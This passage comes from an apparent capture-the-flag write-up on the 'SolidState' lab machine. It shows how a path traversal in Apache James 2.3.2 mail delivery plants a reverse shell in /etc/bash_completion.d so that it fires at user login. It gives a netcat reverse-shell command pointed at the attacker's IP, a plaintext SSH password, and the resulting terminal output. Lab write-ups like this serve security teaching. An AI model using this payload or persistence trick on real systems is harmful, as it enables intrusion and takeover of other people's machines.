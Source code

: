 This creates a file in `/etc/bash_completion.d` that contains my reverse shell. So the next time any user logs in, I’ll get a shell as that user. It is important to add the `'` at the start of the first header, `MAIL FROM`. Then I close that `'` just before my payload. Later, when this file is run by `bash`, that will lump all those lines into one broken command, which will fail and continue. Without the `'`, there are lines that will crash and break the script before the reverse shell can run.

I had to play with payloads to get this working, and I’ll explore this a bit in [Beyond Root](#curious-case-of-devtcp). I did find when doing things manually, `/bin/nc -e /bin/bash 10.10.14.47 443` worked, where as others didn’t. When using the Python script, several payloads worked. That seems to have to do with the way the Python script can add `\r`.

#### Trigger -> Shell

Now I can SSH as mindy, and trigger the code. There are new `rbash` errors from the exploit, and then the terminal just hangs:

```

root@kali# sshpass -p 'P@55W0rd1!2@' ssh mindy@10.10.10.51
Linux solidstate 4.9.0-3-686-pae #1 SMP Debian 4.9.30-2+deb9u3 (2017-08-06) i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Aug 22 14:00:02 2017 from 192.168.11.142
-rbash: $'\254\355\005sr\036org.apache.james.core.MailImpl\304x\r\345\274\317ݬ\003': command not found
-rbash: L: command not found
-rbash: attributestLjava/util/HashMap: No such file or directory
-rbash: L
         errorMessagetLjava/lang/String: No such file or directory
-rbash: L
         lastUpdatedtLjava/util/Date: No such file or directory
-rbash: Lmessaget!Ljavax/mail/internet/MimeMessage: No such file or directory
-rbash: $'L\004nameq~\002L': command not found
-rbash: recipientstLjava/util/Collection: No such file or directory
-rbash: L: command not found
-rbash: $'remoteAddrq~\002L': command not found
-rbash: remoteHostq~LsendertLorg/apache/mailet/MailAddress: No such file or directory
-rbash: $'\221\222\204m\307{\244\002\003I\003posL\004hostq~\002L\004userq~\002xp': command not found
-rbash: $'L\005stateq~\002xpsr\035org.apache.mailet.MailAddress': command not found
-rbash: 0xdf@10.10.14.47>
Message-ID: <4054205.0.1588213770563.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: ../../../../../../../../etc/bash_completion.d@localhost
Received: from 10.10.14.47 ([10.10.14.47])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 148
          for <../../../../../../../../etc/bash_completion.d@localhost>;
          Wed, 29 Apr 2020 22:29:30 -0400 (EDT)
Date: Wed, 29 Apr 2020 22:29:30 -0400 (EDT)
FROM: 0xdf@10.10.14.47
: No such file or directory

```
